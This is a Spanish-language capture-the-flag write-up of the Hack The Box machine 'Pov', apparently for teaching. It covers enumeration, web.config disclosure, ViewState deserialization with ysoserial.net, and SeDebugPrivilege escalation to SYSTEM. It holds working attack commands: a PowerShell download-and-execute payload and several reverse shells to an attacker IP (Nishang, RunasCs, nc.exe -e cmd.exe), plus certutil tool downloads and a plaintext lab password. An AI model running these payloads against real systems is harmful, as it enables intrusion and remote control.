

Pov es una máquina Windows medde dificultad media que comienza con una página web que presenta un sitio comercial. Al enumerar la página web inicial, un atacante puede encontrar el subdominio `dev.pov.htb`. Al navegar al subdominio recién descubierto, una opción `download` es vulnerable a la lectura remota de archivos, lo que le da a un atacante los medios para obtener información valiosa del archivo `web.config`. El subdominio usa el mecanismo `ViewState`, que, en combinación con los secretos filtrados del archivo `web.config`, es vulnerable a la deserialización insegura, lo que lleva a la ejecución remota de código como el usuario `sfitz`. Al observar el sistema de archivos remoto, un atacante puede descubrir y manipular un archivo que revela las credenciales del usuario `alaading`. Una vez que el atacante tiene la ejecución de código como el usuario `alaading`, se abusa de `SeDebugPrivilege` para obtener la ejecución de código en el contexto de una aplicación privilegiada, lo que finalmente resulta en la ejecución de código como `nt authority\system`.


# Enumeración

Indicaremos haciendo un escaneo de los puertos abiertos con `nmap`

```python
❯ nmap -p- --open --min-rate 1000 -vvv -Pn -n 10.10.11.251
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

- `-p-`: Esta opción indica a Nmap que escanee todos los puertos (desde el puerto 1 hasta el puerto 65535).
- `--open`: Esta opción hace que Nmap solo muestre los puertos que están abiertos, es decir, aquellos que responden a las solicitudes de conexión.
- `--min-rate 1000`: Esto establece la tasa mínima de paquetes por segundo a 1000. Esto puede acelerar el escaneo, enviando más paquetes por segundo, aunque también puede aumentar la posibilidad de ser detectado por sistemas de prevención de intrusiones (IPS).
- `-vvv`: Esta opción habilita la salida de nivel de verbosidad máxima. Muestra información detallada sobre el progreso del escaneo y los resultados.
- `-Pn`: Esta opción indica a Nmap que no realice el escaneo de descubrimiento de hosts, lo que significa que no intentará determinar si los hosts están activos antes de escanear los puertos. Útil si sabes que el host objetivo no responderá a los paquetes de ping.
- `-n`: Esta opción indica a Nmap que no realice resolución de DNS inversa durante el escaneo. Puede hacer que el escaneo sea más rápido, especialmente en redes donde la resolución de DNS inversa es lenta o está configurada incorrectamente.
- `10.10.11.251`: Esta es la dirección IP del host que se va a escanear.

Encontramos el puerto `80` abierto, entonces procederemos a escanear los servicios y versiones del puerto abierto.

```python
❯ nmap -p80 -sC -sV -Pn -vvv 10.10.11.251 -oN servicesScan

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-favicon: Unknown favicon MD5: E9B5E66DEBD9405ED864CAC17E2A888E
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- `-p80`: Especifica que se escanee el puerto 80 del host. Este es un escaneo específico para determinar qué servicios pueden estar funcionando en el puerto 80.
- `-sC`: Activa la opción de enumeración de scripts predeterminados de Nmap. Esta opción permite ejecutar una serie de scripts diseñados para detectar vulnerabilidades o características específicas de los servicios.
- `-sV`: Realiza una detección de la versión de los servicios que se encuentran en los puertos especificados.
- `-Pn`: Ignora el descubrimiento de hosts y asume que el objetivo está activo.
- `-vvv`: Establece un nivel alto de verbosidad para la salida, lo que significa que se mostrará una gran cantidad de información sobre el proceso de escaneo.
- `10.10.11.251`: Es la dirección IP del host que se va a escanear.
- `-oN servicesScan`: Especifica que la salida del escaneo se guardará en un archivo llamado "servicesScan" en formato normal.

## Puerto 80 - sitio web

En el puerto 80 nos encontramos con un sitio web, el cual al parecer tiene un dominio que podemos ver en el correo


Luego enumeraremos los subdominios haciendo uso de la herramienta de `ffuf` 

```python
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.pov.htb" -fl 234 -u http://10.10.11.251
```



Encontraremos un sub dominio que es `dev` en el que tiene el siguiente contenido.


Viendo el sitio web del sub dominio podemos interceptar cuando la petición de descarga del `CV`


Para ello usamos `Burp Suite` y cambiando el parámetro en `file` a `web.config` podremos encontrar con un contenido de credenciales de conexión


El contenido que se encuentra es el siguiente:

```python
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

Luego de investigar mas acerca del contenido podemos llegar a explotarlo, los siguientes post pueden ayudar a entender como:


- [ https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net#PoC]( https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net#PoC)

- [https://book.hacktricks.xyz/pentesting-web/deserialization/ ](https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter)
# Explotación

Luego de leer y entender como llegar a explotarlo podremos usar el [ysoserial.net](https://github.com/pwntester/ysoserial.net) . Usaremos una maquina `windows 10` y ejecutaremos lo siguiente en una cmd. 

```python
C:\FilesExplotation\ysoserial-1.34\Release>.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.16.4/Invoke-PowerShellTcp.ps1')" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"

iiiQVb82PWty4YznLnKHSWZ2lvQjMX6JiAqnO%2Fd1oacbSESsVXx8FJatadv1b7BHZq%2BbOQHnJrMtlaVIPAH6jWH7vL7sFCcTnwb3eFeBLGzmzOX1lOVB50v2xmnG2Sb3hiteji5CFhI%2FJIgLesKbcqZ2j6M7NUvVkp7ZFNNEL%2FbBtfhXf%2B7Obx40pgTFs115H9FQ7polMlRkyfDNAQgKDmluMxTxiCSYdyqNLrcq4IyL6Ib75tpuyUzVrKDEX8ezegBIhxxThIOelzgeTcx5XPsirjUrgYjUgtP%2FN01ifQmiHsONefNcNkbgQit4AVKDXFWSZfeO8bH%2Bd%2FcZ7xg%2FNY3bj99o5ezNbKqC7K5cmDus2JBvf3HaGweBLdjJKqmZJZdvjt3p5A3csN82QTDPFAucnf%2FlgIrCaecebH36TwlrjbP5pfeCiJg0wpjTeCh6Gj2odLlUQQ%2BVzTTYgGcTBytfqEhaDXx%2F9xi22XJzGMT3uaq9poDVOfUH%2FFapO%2FTyiFR%2FS8GSVDb4KPcaOFkV89UslHoDGqTk1wZj5qRC2Oyzk%2FGU6CMoW%2Fah1kialiEwdkLVYfYIZAbQ1eG%2BiiNs8qeQkOKyO%2B2xyVVGh7JcJRziWaObvyo5EqDib72QtoAfioae9cjqNrA2phHEZ3TyYOlT0Go2bOr2c2nAV9yVHuvLIqV2Innl%2FBaTp%2BMGtCsterEd4Enpq5I1nkYJ7XTfho%2FSL3bSSfwKZEA1NlbKZXscJm1JjYujOLc3ri7i%2BURlFtVLL3gWh9NSaOj%2BnpGthPce7EEgWb7Dd9ccmRCSNhkGXE%2F9GWFiSsNv2SCM1ahRUwX7gWgKkPzaDRHiHQMmvMC0KqWSAP%2Bkmk9JYgncnttelsVZ5sPhJXeBrL9Ho2uqEF1MKEIlWiEc9VlnweGzYxCSIZv3CZFHPHnauCpN2YIHYrWrVZXjJOxi6EtXZZ6o1Yi7rGDow%2FhDIYbeR1kzq%2B8iGOFYoyUMdqOiKyhs9AyCkfIke6vznT0HaJfumw8KsQn0UHRpCYVre%2BqpF0NIFyCas%2FzgvVz3crm8Qn9cxHmGx9Rc%2FiYyPEtGoBg6gX5cgyjjRezJbdSG1d7ZcADDoh8G5mvu4RSG3ziMC1Dp%2F7bbshQArM43axbYokIJtiZi8MRHb1zaqDa5cemN5sLwROJkKpLxMRzK%2BNIo%2BwkclRFFFbk72oeWlGuOKUWrVasqvkDAWza06Q6NT1L2Tp7gzPsCu8NsjbFQPebvCNrurk63n3zC2kDPte1W2agcXkAVR7AqDXo9siC6ABtXnQUc403vIPANa2KzHmPBc%2BZvxHqnDQghcpBvnvBrXPtWbUatKfSJ2p3cI2Ssozm1FYZY4rpIvTwx%2BvWRhBZaTMSk0P4g96coKZASol7ESFK23ptsTD9trQ%3D%3D
```


Luego de insertaremos en `__VIEWSTATE=` el contenido que obtuvimos de la ejecución de `ysoserial.net`


Antes de enviar la petición debemos descargar [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) del repositorio de [nishang](https://github.com/samratashok/nishang?tab=readme-ov-file#anti-virus). Para que el script de powershell se ejecuta, al final del script escribiremos `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.4 443` para obtener una shell a la hora de que se hace la consulta.  


Luego iniciaremos un servidor web con Python en el puerto `80`

```python
❯ python3 -m http.server 80
```


Y finalmente nos pondremos a la escucha con `ncat` 

```python
❯ rlwrap ncat -lnvp 443
```


# Escalada de privilegios

## Usuario : sfitz

Luego de obtener un shell, enumerando encontraremos con un archivo `connection.xml` que investigando nos encontraremos con los siguientes post:
- [https://stackoverflow.com/questions/63639876/powershell-password-decrypt](https://stackoverflow.com/questions/63639876/powershell-password-decrypt)
- [https://sysadminguides.org/2017/05/02/how-to-pass-credentials-in-powershell/](https://sysadminguides.org/2017/05/02/how-to-pass-credentials-in-powershell/)
- [https://atablog.hashnode.dev/export-clixml-and-import-clixml-saving-objects-to-xml](https://atablog.hashnode.dev/export-clixml-and-import-clixml-saving-objects-to-xml)

Luego pondremos solo la credencial en es archivo `t.txt` para luego ejecutar lo siguiente:

```python
PS C:\users\sfitz> $SecurePassword = Get-Content t.txt | ConvertTo-SecureString
PS C:\users\sfitz> $EncryptedString = Get-Content .\t.txt
PS C:\users\sfitz> $SecureString = ConvertTo-SecureString $EncryptedString
PS C:\users\sfitz> $Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
PS C:\users\sfitz> echo $Credential.GetNetworkCredential().Password
f8gQ8fynP44ek1m3

```

Así podremos obtener la credencial del usuario `alaading`

### Prueba en local

Para entender cono se crea este archivo lo que haremos y probaremos en nuestra maquina Windows.

#### Crear archivo XML

```python
--------------------------------------------------------
# Solicitará al usuario que ingrese las credenciales
$credential = Get-Credential
# Ruta donde deseas guardar el archivo XML
$rutaArchivo = "C:\ruta\hacia\el\archivo.xml"
# Exporta el objeto $credential a un archivo XML
$credential | Export-Clixml -Path $rutaArchivo
```

#### Obtener la contraseña

```python
# Ruta donde se encuentra el archivo XML
$rutaArchivo = "C:\ruta\hacia\el\archivo.xml"
# Importa el archivo XML y asigna las credenciales a una variable
$credenciales = Import-Clixml -Path $rutaArchivo
# Ahora puedes acceder al nombre de usuario y la contraseña
$username = $credenciales.UserName
$password = $credenciales.GetNetworkCredential().Password
# Imprime las credenciales en texto plano
Write-Output "Nombre de usuario: $username"
Write-Output "Contraseña: $password"

```

Luego de saber que comandos debemos de usar para crear y obtener la credencial del archivo `.xml`.

```python
PS C:\Users\b0ySie7e> $credential = Get-Credential
PS C:\Users\b0ySie7e> $rutaArchivo = "C:\Users\b0ySie7e\archivo.xml"
PS C:\Users\b0ySie7e> $credential | Export-Clixml -Path $rutaArchivo
```

Ejecutamos en la PowerShell y podremos obtener un archivo `.xml` con las credenciales


Luego ejecutaremos los comandos para obtener la contraseña del usuario.


Luego de ejecutar obtenemos nuestra contraseña del usuario de la maquina.
También podemos ejecutar lo siguiente y deberíamos de obtener la credenciales

```python
PS C:\users\sfitz\documents> (Import-Clixml connection.xml).GetNetworkCredential() | fl
```


### Runas.exe

Ahora, luego de obtener las credenciales haremos uso de [runasCs](https://github.com/antonioCoco/RunasCs/releases/tag/v1.5) para obtener una shell, pero antes debemos de subir el binario de `runasCs.exe` con un servidor que podemos en Python3 y luego para descargar desde la maquina usaremos `certutil` 

```python
PS C:\users\sfitz> certutil -urlcache -split -f 'http://10.10.16.4/RunasCs.exe' RunasCs.exe
PS C:\users\sfitz> .\RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r 10.10.16.4:443
```

Luego ejecutaremos `runasCs.exe` indicando la IP y el puerto en donde recibiremos la Shell.


Antes de ejecutar RunasCs debemos de poner a la escucha `ncat` y deberia de recibir una shell.

```python
❯ rlwrap ncat -lnvp 443
```


## Usuario : alaading

Enumerando encontraremos que tenemos privilegios de `SeDebufPrivilege`


Para poder explotar podemos leer un poco mas en [SeDebugPrivilege](https://book.hacktricks.xyz/v/es/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#sedebugprivilege) para entender que debemos de hacer.

Descargaremos `psgetsys.ps1` para obtener el `PID` de `winlogon`

```python
certutil -urlcache -split -f 'http://10.10.16.4/psgetsys.ps1' psgetsys.ps1
```

```python
PS C:\Users\alaading\files>Import-Module .\psgetsys.ps1
PS C:\Users\alaading\files> Get-Process winlogon
```

Como segundo paso subiremos el `nc.exe` y tambien `SeDebugPrivesc.exe` 

```python
PS C:\Users\alaading\files> certutil.exe -urlcache -split -f 'http://10.10.16.4/nc.exe' nc.exe
PS C:\Users\alaading\files> certutil.exe -urlcache -split -f 'http://10.10.16.4/SeDebugPrivesc.exe' SeDebugPrivesc.exe
```

Teniendo el `PID`, lo que haremos será ejecutar `SeDebugPrivesc.exe`  

```python
PS C:\> SeDebugPrivesc.exe  552  "c:\Users\alaading\files\nc.exe 10.10.16.4  444 -e cmd.exe"
```


Antes debemos de ponernos a la escucha con `ncat`


## Usuario : Administrator

Luego tenemos una shell privilegiada y podemos habilitar cierto puerto, asi conectarnos o colocando un backdoor. 


